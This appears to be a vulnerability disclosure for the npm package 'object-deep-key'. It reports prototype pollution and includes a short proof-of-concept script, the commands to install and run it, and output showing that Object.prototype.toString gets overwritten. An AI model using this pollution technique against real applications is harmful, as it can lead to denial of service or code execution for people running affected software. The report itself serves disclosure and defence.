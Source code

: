 # Description

`object-deep-key` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const objDeepKey = require('object-deep-key').default

console.log('Before: ', {}.toString)
objDeepKey(constructor.prototype, 'toString').set('function prototype polluted')
console.log('After: ', {}.toString)
```
2. Execute the following commands in the terminal:
```bash
npm i object-deep-key # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: function toString() { [native code] }
After: function prototype polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

